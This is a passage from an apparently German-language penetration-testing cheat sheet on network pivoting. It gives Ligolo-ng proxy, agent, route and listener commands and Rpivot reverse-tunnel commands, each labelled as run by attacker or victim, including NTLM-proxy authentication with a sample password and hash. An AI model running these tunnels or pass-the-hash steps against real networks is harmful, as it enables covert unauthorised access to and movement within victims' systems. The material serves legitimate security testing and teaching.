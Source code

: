 ### Tunneling
```bash
# Start proxy server and automatically generate self-signed TLS certificates -- Attacker
sudo ./proxy -selfcert
# Create an interface named "ligolo" -- Attacker
interface_create --name "ligolo"
# Print the currently used certificate fingerprint -- Attacker
certificate_fingerprint
# Start the agent with certification validation -- Victim
./agent -connect <ip_proxy>:11601 -v -accept-fingerprint <fingerprint>
# Select the agent -- Attacker
session
1
# Start the tunnel on the proxy server -- Attacker
tunnel_start --tun "ligolo"
# Display the agent's network configuration -- Attacker
ifconfig
# Create a route to the agent's specified network -- Attacker
interface_add_route --name "ligolo" --route <network_address_agent>/<netmask_agent>
# Display the tun interfaces -- Attacker
interface_list
```
### Agent Binding und Listening
```bash
# Establish a tunnel from the proxy server to the agent
# Create a TCP listening socket on the agent (0.0.0.0) on port 30000 and forward incoming TCP connections to the proxy (127.0.0.1) on port 10000 -- Attacker
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
# Display the currently running listeners on the agent -- Attacker
listener_list
```
## Rpivot

[https://github.com/klsecservices/rpivot](https://github.com/klsecservices/rpivot)

Reverse-Tunnel. Der Tunnel wird vom Opfer gestartet.\
Ein socks4-Proxy wird auf 127.0.0.1:1080 erstellt.
```bash
attacker> python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999
```
Pivot durch **NTLM-Proxy**
```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --password P@ssw0rd
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```
## **Socat**
